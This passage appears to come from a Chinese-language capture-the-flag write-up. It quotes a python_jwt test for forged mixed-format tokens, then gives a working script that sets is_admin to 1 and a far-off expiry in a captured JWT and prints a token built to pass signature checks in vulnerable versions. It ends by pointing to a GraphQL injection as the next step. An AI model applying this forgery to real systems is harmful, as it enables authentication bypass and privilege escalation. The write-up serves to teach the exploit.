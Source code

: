 ```python
        def topic(self, topic):
            """ Use mix of JSON and compact format to insert forged claims including long expiration """
            [header, payload, signature] = topic.split('.')
            parsed_payload = loads(base64url_decode(payload))
            parsed_payload['sub'] = 'bob'
            parsed_payload['exp'] = 2000000000
            fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
            return '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

        class Verify(Vows.Context):
            """ Check the forged token fails to verify """
            @Vows.capture_error
            def topic(self, topic):
                """ Verify the forged token """
                return jwt.verify_jwt(topic, generated_keys['PS256'], ['PS256'])

            def token_should_not_verify(self, r):
                """ Check the token doesn't verify due to mixed format being detected """
                expect(r).to_be_an_error()
                expect(str(r)).to_equal('invalid JWT format')
```

我们把我们的jwt搞上去，把is_admin换成1就ok了

```python
from datetime import timedelta
from json import loads, dumps
import python_jwt as jwt
from jwcrypto.common import base64url_decode, base64url_encode

topic = "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NjcwOTkyNDUsImlhdCI6MTY2NzA5ODk0NSwiaXNfYWRtaW4iOjAsImlzX2xvZ2luIjoxLCJqdGkiOiJteE9oWllCWTMwYW14bEhTUW4yczRRIiwibmJmIjoxNjY3MDk4OTQ1LCJwYXNzd29yZCI6ImEiLCJ1c2VybmFtZSI6ImEifQ.YL_7_6SwdxvUJm9W9WFRpKrITke0YfQlUDKDx06hifgVp0re7u5FUYSrChtN5trfVNzcWL-I9LNbtm_oLa3MUvxjbG6zJQSFMO6idOl3Wu5nZIRfNsg4RhNHrw4bZV9gf3D7Q4QsvCPcSDT9qXHjWnafZLAJ_y_Q8iZPAqbjaBV9FJ4vu3hjPH8vzN3d-v-39vqjVoQzSGJRz6dzQiBaZ8XGTD6qK8-AZ1xF-lEd02Lo1DD3MpJDUM7XXdPqC-tUnpIWYhaXI_1WNFbZWD6RunhdMJ_Ykt4u1GF7oYRBt12Q_uU106bSdosfPBQ-O2cfF8ewNe3K-RFKJtaVMUkt6A"
[header, payload, signature] = topic.split('.')
parsed_payload = loads(base64url_decode(payload))
parsed_payload['is_admin'] = 1
parsed_payload['exp'] = 2000000000
fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
print('{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}')
```

下一步就是一个GraphQL注入，这个注入好像不算难，

直接查询报错，提示getscoreusingid，但是只能是纯数字

![image-20221031112643966](https://tuchuang.huamang.xyz/img/image-20221031112643966.png)
